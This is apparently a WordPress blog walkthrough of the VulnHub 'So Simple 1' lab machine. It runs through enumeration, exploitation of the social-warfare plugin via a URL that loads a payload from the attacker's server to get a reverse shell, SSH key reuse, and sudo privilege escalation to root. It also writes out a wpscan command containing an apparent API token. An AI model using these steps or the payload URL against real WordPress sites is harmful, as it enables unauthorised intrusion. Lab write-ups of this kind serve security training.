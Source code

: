 <!-- wp:paragraph -->
<p><a href="https://www.vulnhub.com/entry/so-simple-1,515/" target="_blank" rel="noreferrer noopener">https://www.vulnhub.com/entry/so-simple-1,515/</a></p>
<!-- /wp:paragraph -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"vivid-purple","fontSize":"small"} -->
<p class="has-text-align-center has-vivid-purple-background-color has-background has-small-font-size">Review</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><!-- wp:list-item -->
<li>Enumeration will lead to a wordpress site</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Use WPscan to enumerate and find a vulnearbility</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Exploit the vulnerability by sending a bash reverse shell</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Once user is gained avoid the rabbitholes and find a private rsa key</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>In the new user check for sudo permissions to gain access to another user</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>The second user will be able to run a script as root</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Recreate the exact script with a bash shell to gain root access</li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"luminous-vivid-amber","fontSize":"small"} -->
<p class="has-text-align-center has-luminous-vivid-amber-background-color has-background has-small-font-size"><strong>Enumeration</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Run nmap scan to find for open ports.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5544,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-628.png?w=695" alt="" class="wp-image-5544"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":5543,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-627.png?w=1024" alt="" class="wp-image-5543"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Port 80</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5547,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-629.png?w=1024" alt="" class="wp-image-5547"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Run a gobuster scan to find for hidden directories. </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5548,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-630.png?w=1024" alt="" class="wp-image-5548"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>/wordpress</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5549,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-631.png?w=1024" alt="" class="wp-image-5549"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Since it is a wordpress site let's do Wpscan. Using the api-token option will result in a better scan.</p>
<!-- /wp:paragraph -->

<!-- wp:code -->
<pre class="wp-block-code"><code>wpscan --url http://192.168.18.14/wordpress -e --api-token 5PjcfWLMe7p0vz4gUphxPQkozlZN3TdJP0WXCeFkxbs</code></pre>
<!-- /wp:code -->

<!-- wp:image {"id":5551,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-632.png?w=1024" alt="" class="wp-image-5551"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Found a vulnerable plugin call social-warfare.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5553,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-633.png?w=1024" alt="" class="wp-image-5553"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Also found two users and one password. However the max user as limited controls as wordpress admin.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5554,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-634.png?w=1014" alt="" class="wp-image-5554"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Search online for the vulnerability and we are able to create a payload and load it in the url.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5556,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-635.png?w=1024" alt="" class="wp-image-5556"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Create a payload , host it on a python server and execute the URL. (May need to edit the full path of the URL)</p>
<!-- /wp:paragraph -->

<!-- wp:code -->
<pre class="wp-block-code"><code>http:&#47;&#47;192.168.18.14/wordpress/wp-admin/admin-post.php?swp_debug=load_options&amp;swp_url=http://192.168.18.8:81/payload.txt</code></pre>
<!-- /wp:code -->

<!-- wp:image {"id":5558,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-636.png?w=1024" alt="" class="wp-image-5558"/><figcaption class="wp-element-caption">Payload works.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Now let's create a bash script in the payload script. For the bash script add the bash -c command with the payload.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5560,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-637.png?w=922" alt="" class="wp-image-5560"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Start up a netcat listener. </p>
<!-- /wp:paragraph -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"vivid-cyan-blue","fontSize":"small"} -->
<p class="has-text-align-center has-vivid-cyan-blue-background-color has-background has-small-font-size"><strong>Foothold</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>User access gained.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5561,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-638.png?w=822" alt="" class="wp-image-5561"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Found a couple of rabbitholes in this user.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5563,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-639.png?w=533" alt="" class="wp-image-5563"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":5564,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-640.png?w=756" alt="" class="wp-image-5564"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":5566,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-641.png?w=248" alt="" class="wp-image-5566"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":5567,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-642.png?w=636" alt="" class="wp-image-5567"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":5569,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-643.png?w=604" alt="" class="wp-image-5569"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Go to max user and look into .ssh folder. There will be a private key,</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5570,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-644.png?w=784" alt="" class="wp-image-5570"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Use the private key to ssh into the max user.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5572,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-645.png?w=976" alt="" class="wp-image-5572"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Found the first flag.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5573,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-646.png?w=384" alt="" class="wp-image-5573"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Check sudo permissions and we are able to run service to get steven as a user.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5574,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-647.png?w=1024" alt="" class="wp-image-5574"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Once steven is gained check the sudo permissions. We are able to run as root in a server-health.sh script.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5576,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-648.png?w=1024" alt="" class="wp-image-5576"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"black","textColor":"white","fontSize":"small"} -->
<p class="has-text-align-center has-white-color has-black-background-color has-text-color has-background has-small-font-size"><strong>Privilege escalation</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>However this file in not available. We create a folder named tools in the opt directory and create a bash script called server-health.sh. Then insert a bash command in the script and execute the file as root. </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5577,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-649.png?w=662" alt="" class="wp-image-5577"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Root accessed is gained. Find the second flag in steven's home directory and the final flag in the root folder.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5579,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-650.png?w=467" alt="" class="wp-image-5579"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":5580,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-651.png?w=1024" alt="" class="wp-image-5580"/></figure>
<!-- /wp:image -->
